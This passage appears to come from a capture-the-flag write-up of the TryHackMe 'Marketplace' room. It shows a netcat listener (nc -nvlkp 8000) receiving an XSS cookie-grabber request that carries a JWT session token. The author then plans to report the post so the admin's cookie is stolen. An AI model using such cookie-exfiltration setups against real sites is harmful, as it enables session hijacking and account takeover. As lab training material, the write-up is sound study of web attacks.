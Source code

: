 ![8](/assets/images/thm/marketplace/8.png)

And if we check the netcat session, we get a hit but this time we get our own cookie.
```console
local@local:~/Documents/tryhackme/marketplace$ nc -nvlkp 8000
Listening on [0.0.0.0] (family 2, port 8000)
Listening on 0.0.0.0 8000
Connection received on 10.2.3.202 36088
GET /XSS/grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiYSIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjAzMDM4MzUwfQ.wDze0odW4n82KOUUa8ODDqykpuNXkwME0i-0x7HREB0 HTTP/1.1
Host: 10.2.3.202:8000
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.38.49/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8

Connection received on 10.2.3.202 36090
```
Lets report this post to the admin.